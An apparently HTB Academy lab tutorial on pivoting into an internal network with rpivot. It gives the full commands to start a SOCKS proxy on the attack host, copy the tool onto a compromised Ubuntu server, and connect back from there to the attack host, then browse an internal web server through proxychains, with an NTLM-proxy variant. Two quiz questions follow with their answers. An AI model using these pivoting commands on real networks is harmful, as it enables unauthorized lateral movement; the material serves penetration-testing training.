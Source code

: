 # Web Server Pivoting with Rpivot

[Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. We will take the scenario below, where we have a web server on our internal network (`172.16.5.135`), and we want to access that using the rpivot proxy.

![](https://academy.hackthebox.com/storage/modules/158/77.png)

We can start our rpivot SOCKS proxy server using the below command to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections.

**Cloning rpivot**

Web Server Pivoting with Rpivot

```shell-session
AIceBear@htb[/htb]$ sudo git clone https://github.com/klsecservices/rpivot.git
```

**Installing Python2.7**

Web Server Pivoting with Rpivot

```shell-session
AIceBear@htb[/htb]$ sudo apt-get install python2.7
```

We can start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using `server.py`.

**Running server.py from the Attack Host**

Web Server Pivoting with Rpivot

```shell-session
AIceBear@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Before running `client.py` we will need to transfer rpivot to the target. We can do this using this SCP command:

**Transfering rpivot to the Target**

Web Server Pivoting with Rpivot

```shell-session
AIceBear@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

**Running client.py from Pivot Target**

Web Server Pivoting with Rpivot

```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```

**Confirming Connection is Established**

Web Server Pivoting with Rpivot

```shell-session
New connection from host 10.129.202.64, source port 35226
```

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.

**Browsing to the Target Webserver using Proxychains**

Web Server Pivoting with Rpivot

```shell-session
proxychains firefox-esr 172.16.5.135:80
```

![](https://academy.hackthebox.com/storage/modules/158/rpivot\_proxychain.png)

Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office\_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way:

**Connecting to a Web Server using HTTP-Proxy & NTLM Auth**

Web Server Pivoting with Rpivot

```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

**Questions**

From which host will rpivot's server.py need to be run from? The Pivot Host or Attack Host? Submit Pivot Host or Attack Host as the answer.

attack host

From which host will rpivot's client.py need to be run from? The Pivot Host or Attack Host. Submit Pivot Host or Attack Host as the answer.

pivot host
